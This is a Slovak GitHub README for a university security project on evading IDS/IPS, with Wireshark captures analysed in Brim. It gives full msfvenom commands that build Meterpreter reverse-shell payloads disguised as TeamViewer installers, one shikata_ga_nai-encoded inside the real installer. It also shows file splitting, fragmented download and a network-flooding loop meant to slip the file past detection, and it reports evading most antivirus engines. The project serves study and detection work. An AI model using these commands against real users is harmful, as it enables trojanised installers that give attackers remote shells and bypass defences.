 # BIT - IDS/IPS evasion techniques

Obsahom github repozitára je praktická realizácia IDS/IPS obfuskačných techník, ktorá je súčasťou semestrálneho projektu v rámci predmetu Bezpečnosť informačných technológií.

<br>

Venovali sme obfuskačným technikám, kedy sme prenášali škodlivý súbor cez sieť a následne sme pomocou nástroja Wireshark zachytili sieťovú komunikáciu. Vygenerované súbory (.pcap) sme ďalej analyzovali prostredníctvom nástroja Brim. 

<br>

* [No Encoding (.pcap)](/assets/pcaps/No_Encoding.pcap)

* [Shikata ga nai (.pcap)](/assets/pcaps/Shikata_ga_nai.pcap)

* [Fragmentation (.pcap)](/assets/pcaps/Fragmentation.pcap)

* [Flooding (.pcap)](/assets/pcaps/Flooding.pcap)

<br>

Príkazom ``msfvenom -a x86 --platform windows -p windows/meterpreter/reverse\_tcp LHOST=10.10.14.5 LPORT=8080 -f exe -o TeamViewerInstall.exe`` sme vytvorili škodlivý súbor, ktorého účelom je spustenie reverse shellu. Jednoduchý útočný scénar môže predstavovať používateľa, ktorý si chce stiahnuť aplikáciu Team Viewer, kedy ako útočník mu vieme poskytnuť škodlivý spustiteľný kód, ktorý vráti reverse shell. Škodlivý súbor nebol enkódovaný, preto môžeme vidieť v nástroji Brim(viď obrázok Fig.1) identifikáciu spustiteľného súboru v zázname pe.log( https://docs.zeek.org/en/master/logs/index.html) (WINDOWS 95 or NT 4.0 WINDOWS\_GUI), kedy ako sieťový administrátor môžeme ďalej preverovať komunikáciu a následne zabraniť spusteniu kódu. Tiež sme mohli identifikovať alert pre Python SIMPLEHTTP, ale v tomto prípade sme chceli simulovať práve prenos škodlivého súboru, preto môžeme vygenerované upozornenie ignorovať.

<br>

![No Encoding](/assets/img/fig1_no_encoding.png)
|:--:|
| <b>Fig.1 - Identifikácia spustiteľného súboru v nástroji Brim</b>|

<br>

Príkazom ``msfvenom windows/x86/meterpreter\_reverse\_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer\_Setup.exe -e x86/shikata\_ga\_nai -a x86 --platform windows -o TeamViewer\_Setup.exe -i 5`` sme vytvorili škodlivý súbor, ktorého účelom je spustenie reverse shellu. Škodlivý kód je šifrovaný metódou shikata ga nai, ktorý má efektívne zabrániť odhalenie škodlivej činnosti. Následne sme príkazom ``python3 -m http.server`` spustili http server. Príkazom ``wget 192.168.100.153:8000/Team\_Viewer\_Setup.exe`` sme následne súbor stiahli. Komunikáciu sme zachytili pomocou nástroja Wireshark, kedy sme prenos uložili do .pcap súboru. Pcap súbor sme následne vložili do nástroja Brim pre dôkladnejšiu analýzu spojenia. Na obrázku Fig.2 sme mohli evidovať, že nástroj nebol schopný identifikovať spustiteľný kód, kedy ako sieťový administrátor nemáme vedomosť o škodlivej aktivite. Ako útočník sme úspešne obišli IDS/IPS a môžeme vykonávať zlomyseľnú činnosť.

<br>

![Shikata ga nai](/assets/img/fig2_shikata_ga_nai.png)
|:--:|
| <b>Fig.2 - Analýza komunikácie v nástroji Brim (shikata ga nai)</b>|

<br>

Taktiež sme mohli evidovať, že vo väčšine prípadov nebol súbor identifikovaný antivírusovými softvérmi (viď obrázok Fig.3).

<br>

![VirusTotal Shikata ga nai](/assets/img/fig3_virustotal_shikata_ga_nai.png)
|:--:|
| <b>Fig.3 - VirusTotal pre škodlivý súbor enkódovaný shikata ga nai</b>|

<br>

Súbor, ktorý nebol enkódovaný mal vyššiu úspešnosť detekcie antivírusovými softvérmi (viď obrázok Fig.4).

<br>

![VirusTotal No Encoding](/assets/img/fig4_virustotal_no_encoding.png)
|:--:|
| <b>Fig.4 - VirusTotal pre škodlivý súbor bez enkódovania</b>|

<br>

Príkazom ``split --verbose -b1K TeamViewerInstall.exe`` sme rozdelili škodlivý súbor na viacero menších súborov. Ďalej sme príkazom ``python3 -m http.server`` spustili http server.
Príkazom ``for i in {a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z}; do wget 192.168.100.153:8000/xa\$i;done`` a ďaľšou modifikáciou príkazu sme stiahli zo serveru všetky súbory, ktoré nám príkaz ``split`` vygeneroval. Na obrázku Fig.5 možme pozorovať zachytenú komunikáciu pomocou Wireshark a následna vizualizácia IDS logov v nástroji Brim. Týmto spôsobom sme chceli simulovať fragmentáciu súboru, kedy posielame súbor vo fragmentoch, aby systémy detekcie prienikov nedokázali identifikovať podpisy škodlivých súborov. Napriek posielaniu súboru vo fragmentoch bol súbor identifikovaný ako spustiteľný. Mojim presvedčením je, že ak budeme posielať súbor ešte v menších fragmentoch, nebudú IDS nástroje schopné identifikovať podpis. Žiaľ sa mi nepodarilo simulovať prenos v menších fragmentoch.

<br>

![Fragmentation](/assets/img/fig5_fragment.png)
|:--:|
| <b>Fig.5 - Simulácia fragmentácie a analýza komunikácie v Brim</b>|

<br>

Príkazom ``cat `ls` > vsetko.exe`` sme následne poskladali fragmenty súboru spätne na pôvodný súbor. Ďalej pomocou ``md5sum vsetko.exe`` a ``md5sum TeamViewerInstall.exe`` sme overili a porovnali zhodu pôvedného súboru so súborom, ktorý bol spätne poskladaný (viď obrázok Fig.6).

<br>

![Reassemble](/assets/img/fig6_reassemble.png)
|:--:|
| <b>Fig.6 - Znovuzloženie a overenie zhody s pôvodným súborom</b>|

<br>

Príkazom ``while :; do wget 192.168.100.153:8000/TeamViewerInstall.exe;done``
sme sa snažili vyčerpať zdroje zahltením siete hlukom. Ďalej sme príkazom ``wget 192.168.100.153:8000/TeamViewer\_Setup.exe`` podstrčili škodlivý súbor. Chceli sme simulovať metódu flooding, kedy generujeme veľke množstvo sieťovej premávky, tak aby sme zahltili zdroje a následne podstrčili škodlivý súbor bez detekcie. Naša simulácia je ukážka ako metódu možno použiť, pre potreby zahltenia výpočtového výkonu je potrebné generovať väčšie množstvo sieťovej premávky. Na obrázku Fig.7 vieme pozorovať zachytenu komunikáciu s veľkým množstvom upozornení a detekciu spustiteľného kódu. 

<br>

![Flooding](/assets/img/fig7_flooding.png)
|:--:|
| <b>Fig.7 - Simulácia metódy Flooding</b>|

<br>

